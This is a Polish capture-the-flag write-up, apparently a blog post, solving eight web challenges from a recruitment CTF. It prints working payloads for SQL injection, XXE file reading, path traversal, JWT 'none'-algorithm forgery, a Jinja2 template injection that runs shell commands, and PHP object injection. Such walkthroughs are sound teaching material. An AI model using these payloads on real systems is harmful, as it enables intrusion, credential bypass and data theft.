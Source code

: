 ```yaml
---
title: Zbiorczy CTF - rekrutacja BGK by sekurak
author: k1k9
categories: [web]
tags: [ctf]
---
```

CTF był pod adresem: http://139.177.183.71/bgk-ctf-31337/

## 1 - Xcross this
Po wejściu na stronę widzimy, że aplikacja pobiera od użytkownika dane, które potem wyświetla przy użyciu biblioteki MathJax ver. 2.7.0.
![alt text](/assets/posts/ctf_bgk/xcross_this1.png)

Dodatkowo jeżeli zajrzymy w kod strony zobaczymy niewidoczny link LogOut oraz skrypt w JS, który w zasadzie nic ciekawego nie robi.

Po kilku próbach exploitacji parametru XSS, przeszedłem do testowania tego tajemniczego linku:
```html
<a href="?LogOut=1" id="LogOut"></a>
```
I po przejściu na link otrzymujemy odpowiedź:
```json
{"error":"VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=\n"}
```
Na pierwszy rzut oka wygląda to jak base64 więc staram się to odszyfrować, okazuje się że flaga jest potrójnie zaszyfrowana basem ;)
```bash
echo "VVRGU1IxZ3pkRlJrU0VsM1ltMWtTbUpyTVdoa1IyZzJWMWM1TVZGWVNteG1VVzg5Q2c9PQo=" | base64 -d | base64 -d | base64 -d
```

## 2 - Cross site
Zadanie zostało prawdopodobnie wyłączone (nie udało mi się tam dostać), kod prowadzący do zadania 2:
```html
<!--<li>
    <input type="checkbox" id="task2" class="task-toggle">
    <label for="task2" class="task-title">2 - Cross-site</label>
    <div class="task-description">
        <p><a href="http://139.177.183.71:2000/"
                target-"_blank">Link do zadania</a></p>
    </div>
</li>-->
```

## 3 - Database
Po analizie kodu strony można zauważyć, że interesującym parametrem wydaje się być prametr ```?query=```.

Spróbowałem podać kilka typowych znaków, które mogą wywołąć błąd zapytania i okazuje się, że baza danych jest podatna po podaniu znaku ```'```, otrzymujemy wówczas komunikat: ```SQLITE_ERROR```. A więc przejdźmy do szperania w bazie.

### Sprawdzenie ilości kolumn
Po kilku minutach testowania widzę, że baza jest podatna na SQLi za pomocą ```UNION```. Więc przejdę do sprawdzenia co zawiera tabela z ofertami. W tym celu użyję polecenia:
```sql
test') UNION SELECT NULL,NULL,NULL,NULL--
```
Oczywiście NULL, zwiększamy dopóki strona nie przestanie zwracać błędu, ilość NULLi informuje nas o liczbie kolumn w tabeli.

### Ustalenie nazwy tabeli i kolumn
```sql
test') UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL),NULL,NULL,NULL--
```
otrzymujemy odpowiedź:
```sql
CREATE TABLE offers ( title TEXT, text TEXT, image TEXT, hidden BOOL )
```

### Wyciągnięcie flagi
No to pozostało nam pobranie wszystkich ofert i znalezienie tej jednej ukrytej:
```sql
XD') UNION SELECT title,text,image,hidden FROM offers--
```

## 4 - External Entity
Widzimy, że flaga ukryta jest w pliku ```/tmp/flag``` i musimy użyć do tego XML. Jak sama nazwa zresztą nam sugeruje strona jest podatna na XEE (XML External Entity).
![alt text](/assets/posts/ctf_bgk/external_entity.png)

Zatem spróbujemy dostać się do pliku z flagą wykorzystując XEE:
```xml
<!DOCTYPE k1k9[<!ENTITY example SYSTEM "/tmp/flag"> ]>
<creds>
    <user>&example;</user>
    <pass>admin</pass>
</creds>
```

## 5 - deardir
Po wejściu na strone dostajemy informacje o podaniu ścieżki w parametrze file, a jak zajrzymy w kod strony to widzimy, że flaga znowu jest ukryta w pliku ```/tmp/flag```. Jest to tradycyjny path traversal (```?file=../../../tmp/flag```).

## 6 - I'm brOken'
Widzimy panel logowania a w nim mamy podane dane logowania. Po zalogowaniu się strona ustawia nam ciasteczko session, podobne do tego:
![alt text](/assets/posts/ctf_bgk/im_broken.png)

Jest to ciekawe bo biorąc pod uwagę, że mam dane logowania i ustawiane jest ciasteczko JWT sugeruje to, że tutaj trzeba szukać jakiejś dziury. 

Poszperałem w internecie i znalazłem podatność CVE-2015-9235, która w zasadzie mówi nam, że wystarczy zmienić algorytm na None i usunąć część z sygnaturą.

Tak więc tworze nowe ciasteczko:
```bash
echo -n '{"alg":"None","typ":"JWT"}' | base64 | tr -d '='
echo -n '{"username":"admin","iat":1712129895}' | base64 | tr -d '=' 
```
Obie części łączę kropką i na końcu dodaje kropkę (dalej nic nie podaje bo pomijam sygnaturę). Efekt:
```bash
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzEyMTI5ODk1fQ.
```
Podmieniam ciasteczko na stronie i... nic. 
Okazuje się, że flaga jest ukryta w kodzie aplikacji, gdy wywołamy podatność to strona wygeneruje nam w HTML import pliku app.js i tutaj znajdziemy flagę.

## 7 - Welcome, I, you
Strona mówi nam aby podać swoje imię jako część URI: ```/greeting/<imie>```.
Z nagłówków HTTP wiem, że strona stoi na:
```HTTP
Server: Werkzeug/3.0.1 Python/3.8.18
```
Tak więc spróbujmy coś tutaj wstrzyknąć. XSSa tutaj nie ma ale mamy SSTI (Server Side Template Injection). Czyli wykorzystując Pythona i template engine Jinja2. Szybka weryfikacja ```/greeting/{{config.items()}}``` i działa, tak więc spróbujmy zrobić jakieś RCE:  ```{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}``` i mamy:

![alt text](/assets/posts/ctf_bgk/welcome_i_you.png)

Jak zrobimy ```ls -la``` to widzimy plik ```flag.txt```, który okazuje się być tym czego szukamy.

## 8 - Why s0 deserious?
No to tutaj spraw jest dużo prostsza wystarczy, że stworzymy sobie obiekt i wywołamy na nim funkcję serialize:
```php
<?php
class FileRead {
    public $file = '../flag.txt';
}

$object = new FileRead();
echo serialize($object);
?>
```
I przekażemy to jako parametr GET.